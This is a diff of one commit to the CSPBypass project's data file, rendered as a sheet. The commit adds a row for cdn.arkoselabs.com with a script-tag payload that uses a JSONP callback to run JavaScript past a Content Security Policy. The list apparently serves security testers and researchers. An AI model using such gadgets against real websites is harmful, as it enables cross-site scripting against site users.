

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added cdn.arkoselabs.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 38: cdn.arkoselabs.com | <script src="https://cdn.arkoselabs.com/fc/a/?callback=alert"></script>
```
